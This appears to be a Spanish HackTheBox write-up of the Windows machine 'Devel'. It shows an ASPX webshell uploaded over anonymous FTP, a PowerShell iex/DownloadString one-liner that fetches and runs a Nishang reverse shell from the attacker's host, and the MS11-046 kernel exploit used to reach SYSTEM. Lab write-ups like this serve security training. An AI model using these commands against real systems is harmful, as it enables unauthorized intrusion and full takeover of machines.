





HackTheBox
Easy
Windows
FTP
ASPX
IIS
MS11-046
Devel
FTP anonimo permite subir una ASPX webshell al directorio IIS; escalada con MS11-046 a SYSTEM.
cat4clysm
Herramientas utilizadas
nmap
ftp
msfvenom
netcat
Scanning
root@kali:~$
nmap -sC -sV -p 21,80 -Pn -n 10.10.10.5 -oN targeted
FTP Anonimo - Subir ASPX Shell
root@kali:~$
cp /usr/share/SecLists/Web-Shells/FuzzDB/cmd.aspx .
ftp 10.10.10.5
put cmd.aspx
Reverse Shell via PowerShell
root@kali:~$
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
sudo python3 -m http.server 80Desde cmd.aspx ejecutamos:
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.27/Invoke-PowerShellTcp.ps1')
Escalada de Privilegios - MS11-046
Buscamos 'Windows 7 Build 7600 exploit' e identificamos MS11-046:

root@kali:~$
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS11-046/ms11-046.exe
ftp 10.10.10.5
binary
put ms11-046.execd C:\inetpub\wwwroot
.\ms11-046.exetype C:\Users\babis\Desktop\user.txt.txt
type C:\Users\Administrator\Desktop\root.txt.txtLecciones aprendidas
- FTP anonimo con permisos de escritura permite subir webshells directamente al directorio web.
- IIS + FTP en el mismo directorio raiz es una configuracion peligrosa.
- Los sistemas Windows sin parchear son vulnerables a kernel exploits publicos de escalada.